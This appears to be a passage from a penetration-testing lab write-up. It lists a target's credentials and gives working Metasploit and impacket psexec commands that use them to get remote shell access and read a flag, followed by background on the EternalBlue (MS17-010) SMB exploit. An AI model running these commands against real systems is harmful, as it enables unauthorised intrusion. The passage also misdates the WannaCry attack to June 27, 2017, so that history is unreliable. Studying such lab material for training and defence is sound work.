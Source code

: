 Credentials : `sysadmin:samantha` `demo:victoria` `auditor:elizabeth` `administrator:qwertyuiop`

**First method (Metasploit)**

```bash
john@attack> msfconsole

msf5> use windows/smb/psexec
msf5> set rhosts 10.3.24.84
msf5> set smbuser administrator
msf5> set smbpass qwertyuiop
msf5> run

meterpreter> cat c:\\flag.txt
```

**Second method (PSExec)**

```bash
john@attack> psexec.py administrator:qwertyuiop@10.3.24.84 cmd.exe

C:\Windows\system32> more c:\\flag.txt
```

### MS17-010 (EternalBlue)

#### Description

* EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
* The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the exection of arbitrary commands.
* The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
* This vulnerability affects multiple versions of Windows :
  * Windows Vista
  * Windows 7
  * Windows Server 2008
  * Windows 8.1
  * Windows Server 2012
  * Windows 10
  * Windows Server 2016
* Microsoft released a patch for the vulnerability in March 2017, howerver many users and companies have still not yet patched their systems.
* Then EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems.
* The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.
* In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.
